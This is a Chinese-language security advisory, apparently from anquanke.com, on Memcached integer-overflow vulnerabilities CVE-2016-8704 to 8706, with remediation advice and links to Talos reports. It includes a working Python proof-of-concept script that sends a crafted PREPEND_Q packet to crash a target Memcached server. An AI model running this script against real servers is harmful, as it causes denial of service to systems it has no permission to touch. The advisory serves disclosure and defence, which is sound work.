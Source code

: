 > 原文链接: https://www.anquanke.com//post/id/84827 


# 【漏洞预警】Memcached修复多处高危漏洞可导致代码执行、拒绝服务（14:45更新）


                                阅读量   
                                **163216**
                            
                        |
                        
                                                                                    



[![](https://p5.ssl.qhimg.com/t013deb4350387eac83.png)](https://p5.ssl.qhimg.com/t013deb4350387eac83.png)

****

**背景介绍**

Memcached是一个自由开源的，高性能，分布式内存对象缓存系统。

Memcached是以LiveJournal旗下Danga Interactive公司的Brad Fitzpatric为首开发的一款软件。现在已成为mixi、hatena、Facebook、Vox、LiveJournal等众多服务中提高Web应用扩展性的重要因素。

Memcached是一种基于内存的key-value存储，用来存储小块的任意数据（字符串、对象）。这些数据可以是数据库调用、API调用或者是页面渲染的结果。

本质上，它是一个简洁的key-value存储系统。

一般的使用目的是，通过缓存数据库查询结果，减少数据库访问次数，以提高动态Web应用的速度、提高可扩展性。

**<br>**

**漏洞描述**

2016年10月31日  **  Memcached发布安全补丁修复多个远程代码执行漏洞**，利用该漏洞黑客可以窃取在Memcached中存放的业务数据，或导致Memcached服务崩溃从而造成拒绝服务等危害，**安全客提醒用户应当及时升级官方版本至1.4.33版本。**

Memcached存在多个整数溢出漏洞，可导致远程代码执行。

这些漏洞存在于用于插入（inserting）、附加（appending,）、前置（prepending）、修改键值对的函数中，在SASL身份验证位置也存在问题。

**攻击者可以通过向服务器发送一个精心构造的Memcached命令实现该漏洞的利用。此外，这些漏洞还可以泄露敏感的进程信息，并且可以多次触发，利用这些敏感的进程信息，攻击者可以绕过像ASLR等常见的漏洞缓解机制。**

由于可以绕过这些通用的漏洞缓解机制，使得这些漏洞的危害尤为严重。

虽然Memcached文档中已经强烈建议将Memcached服务配置在可信任的网络环境中，但是仍有大量的Memcached服务可以在公网中直接访问。

此外，**即使Memcached部署在内网中，企业的安全管理人员仍然不能忽视此次更新的安全问题，黑客可能通过内网渗透、SSRF漏洞等，直接对部署在内网的服务发起攻击。**



**漏洞编号**

CVE-2016-8704 – Memcached Append/Prepend 远程代码执行漏洞

CVE-2016-8705 – Memcached Update 远程代码执行漏洞

CVE-2016-8706 – Memcached SASL身份验证远程代码执行漏洞

<br>

**漏洞利用代码（POC）：（下面代码可导致业务崩溃、拒绝服务，请勿轻易尝试）**

```
import struct
import socket
import sys
MEMCACHED_REQUEST_MAGIC = "x80"
OPCODE_PREPEND_Q = "x1a"
key_len = struct.pack("!H",0xfa)
extra_len = "x00"
data_type = "x00"
vbucket = "x00x00"
body_len = struct.pack("!I",0)
opaque = struct.pack("!I",0)
CAS = struct.pack("!Q",0)
body = "A"*1024
if len(sys.argv) != 3:
        print "./poc_crash.py &lt;server&gt; &lt;port&gt;"
packet = MEMCACHED_REQUEST_MAGIC + OPCODE_PREPEND_Q + key_len + extra_len
packet += data_type + vbucket + body_len + opaque + CAS
packet += body
set_packet = "set testkey 0 60 4rntestrn"
get_packet = "get testkeyrn"
s1 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s1.connect((sys.argv[1],int(sys.argv[2])))
s1.sendall(set_packet)
print s1.recv(1024)
s1.close()
s2 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s2.connect((sys.argv[1],int(sys.argv[2])))
s2.sendall(packet)
print s2.recv(1024)
s2.close()
s3 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s3.connect((sys.argv[1],int(sys.argv[2])))
s3.sendall(get_packet)
s3.recv(1024)
s3.close()
```

**<br>**

**测试效果：**

[![](https://p3.ssl.qhimg.com/t01ec11c0dd33694557.png)](https://p3.ssl.qhimg.com/t01ec11c0dd33694557.png)



**国内影响统计：（以下数据来自fofa.so）**

[![](https://p3.ssl.qhimg.com/t0110b0b5125efdbfe9.png)](https://p3.ssl.qhimg.com/t0110b0b5125efdbfe9.png)

**<br>**

**漏洞细节**



技术细节、分析

[http://www.talosintelligence.com/reports/TALOS-2016-0219/](http://www.talosintelligence.com/reports/TALOS-2016-0219/)

[http://www.talosintelligence.com/reports/TALOS-2016-0220/](http://www.talosintelligence.com/reports/TALOS-2016-0220/)

[http://www.talosintelligence.com/reports/TALOS-2016-0221/](http://www.talosintelligence.com/reports/TALOS-2016-0221/)



**解决办法**

1.升级官方最新版本：1.4.33版本 [http://www.memcached.org/files/memcached-1.4.33.tar.gz](http://www.memcached.org/files/memcached-1.4.33.tar.gz)

2.限制Memcached 11211端口访问权限（如：禁止外网访问、仅限特定端口访问）



**参考链接**

[https://github.com/memcached/memcached/wiki/ReleaseNotes1433](https://github.com/memcached/memcached/wiki/ReleaseNotes1433)

[http://blog.talosintel.com/2016/10/memcached-vulnerabilities.html](http://blog.talosintel.com/2016/10/memcached-vulnerabilities.html)

[http://www.talosintelligence.com/reports/TALOS-2016-0219/](http://www.talosintelligence.com/reports/TALOS-2016-0219/)

[http://www.talosintelligence.com/reports/TALOS-2016-0220/](http://www.talosintelligence.com/reports/TALOS-2016-0220/)

[http://www.talosintelligence.com/reports/TALOS-2016-0221/](http://www.talosintelligence.com/reports/TALOS-2016-0221/)

[](http://www.talosintelligence.com/reports/TALOS-2016-0221/)

[![](https://p3.ssl.qhimg.com/t0138e19bff320606e1.jpg)](https://p3.ssl.qhimg.com/t0138e19bff320606e1.jpg)[![](https://p5.ssl.qhimg.com/t01cd0c43501719e155.jpg)](https://p5.ssl.qhimg.com/t01cd0c43501719e155.jpg)

 <br>
